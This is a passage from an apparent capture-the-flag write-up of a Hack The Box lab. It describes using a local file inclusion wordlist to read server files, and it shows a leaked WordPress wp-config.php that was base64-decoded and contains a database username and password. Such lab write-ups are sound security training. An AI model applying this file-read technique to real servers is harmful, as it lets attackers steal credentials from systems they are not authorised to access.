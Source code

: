 When using the LFI wordlist I obtained earlier (found here: <https://github.com/Karmaz95/crimson/blob/master/words/exp/LFI>) , I found that the following directories responded with meaningful information. The needed credentials to gain a foothold has to be in here. I will need to decode the response in Base64 for each one of these requests:
![](./_resources/HTB_Pro_Lab_Dante.resources/image.25.png)

Request number 392 yielded results in base64 and when decoding it I received the following output.:
```
<?php
/**
* The base configuration for WordPress
*
* The wp-config.php creation script uses this file during the
* installation. You don't have to use the web site, you can
* copy this file to "wp-config.php" and fill in the values.
*
* This file contains the following configurations:
*
* * MySQL settings
* * Secret keys
* * Database table prefix
* * ABSPATH
*
* @link https://wordpress.org/support/article/editing-wp-config-php/
*
* @package WordPress
*/
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME' 'wordpress' );
/** MySQL database username */
define( 'DB_USER', 'margaret' );
/** MySQL database password */
define( 'DB_PASSWORD', 'Welcome1!2@3#' );
/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );
/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
/**#@+
* Authentication Unique Keys and Salts.
*
* Change these to different unique phrases!
* You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
```